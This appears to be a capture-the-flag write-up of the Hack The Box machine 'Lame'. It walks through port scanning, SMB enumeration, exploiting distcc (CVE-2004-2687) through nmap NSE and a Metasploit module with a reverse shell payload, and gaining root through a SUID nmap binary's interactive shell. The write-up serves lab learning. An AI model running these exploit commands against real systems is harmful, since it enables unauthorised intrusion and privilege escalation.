 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Lame

## Summary

[Lame](https://app.hackthebox.com/machines/1) is an <mark style="color:green;">easy-rated</mark> beginner-friendly machine offering an engaging foothold and a standard privilege escalation path. Despite unfruitful attempts at **enumerating host shares**, exploration of the **`distcc`** service unveils exploitable opportunities. Leveraging **Metasploit**, we establish our **foothold**, while a search for **SUIDs** enables successful **privilege escalation**.

<table><thead><tr><th width="94" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td><code>distcc</code> research</td><td><a href="../../../tools/tools/port-scanners/nmap.md">nmap</a>, <a href="https://www.metasploit.com/">metasploit</a></td><td>Foothold</td></tr><tr><td align="right">2</td><td>Host enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LotL</a></td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Open Ports

Let's start with a port-scan using our [very-simple script](../../../tools/tools/port-scanners/nmap.md#nmap-scan).

```bash
$ nmap-scan.sh 10.10.10.3
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

Based on Nmap's result, there are 5 ports open which reveal some interesting information worth noting down (Figure 1).

<figure><img src="../../../.gitbook/assets/lame_nmap.png" alt=""><figcaption><p>Figure 1: Port scanning using <code>nmap</code>.</p></figcaption></figure>

Before moving forward, we should add the hostname, the domain name and the FQDN[^2] to our local DNS file.

```bash
$ grep lame /etc/hosts
10.10.10.3      hackthebox.gr lame.hackthebox.gr lame
```

### FTP

We can confirm that the FTP server is completely empty, so not much to do here.

```bash
# Connecting to the FTP server
$ ftp anonymous@lame
Connected to hackthebox.gr.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50264|).
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

### SMB

The SMB server also allows anonymous authentication and by enumerating it using [NetExec](../../../tools/tools/active-directory/netexec-cme.md), we see only one non-default share: `tmp`. Interestingly enough, we have both `READ` and `WRITE` access to it, which allows us to spider it. At the first glance, the file `vgauthsvclog.txt.0` seems interesting, but, unfortunately, it contains nothing useful.

```bash
# Enumerating SMB shares
nxc smb lame -u '' -p '' --shares
# Spidering the tmp share
nxc smb lame -u '' -p '' --spider tmp --regex .
# Downloading the file
nxc smb lame -u '' -p '' --share tmp --get-file vgauthsvclog.txt.0 vgauthsvclog.txt
```

<figure><img src="../../../.gitbook/assets/lame_smb.png" alt=""><figcaption><p>Figure 2: Enumerating the SMB server.</p></figcaption></figure>

Since we have `WRITE` access to the `tmp` share, we can try to steal some hashes by uploading a `SCF` file to it, as described [here](../../../services/services/smb-139-445.md#scf), but this does not seem to work in this case.

## Foothold

### Distcc

We are out of choices; the only port left is the strange `3632`! So let's find out about that. Based on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc), `distcc` is _a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution_.

There is only a Metasploit module to try on the above article which is based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687) and leads to RCE. There is also an [Nmap script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) that exploits it, so let's try that first (Figure 3).

{% code overflow="wrap" %}
```bash
# Using NSE to check for 
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/lame_NSE.png" alt=""><figcaption><p>Figure 3: Exploiting <code>distcc</code> using Nmap's NSE.</p></figcaption></figure>

That worked, so let's get a shell via Metasploit and, hopefully, read the `user.txt` flag 🚩 (Figure 4).

```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```

<figure><img src="../../../.gitbook/assets/lame_user_flag.png" alt=""><figcaption><p>Figure 4: Dropping into a shell and reading the user flag.</p></figcaption></figure>

## Privilege Escalation

### Permissions

After enumerating the host, we can't really find anything that we could use to elevate our privileges. The next step is to check for [SUID files](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit).

```bash
# Checkin for SUID files
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
<SNIP>
```

From the above output, `nmap` stands out right away. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) allows us to find a way and leverage the `nmap` binary (Figure 5) and read the `root.txt` flag 🚩.

<figure><img src="../../../.gitbook/assets/lame_gtfobins.png" alt=""><figcaption><p>Figure 5: The GFTOBins guidance on how to leverage the <code>nmap</code> binary.</p></figcaption></figure>

```bash
daemon@lame:/$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
026<REDACTED>125
```

[^1]: Living off the Land

[^2]: Fully Qualified Domain Name
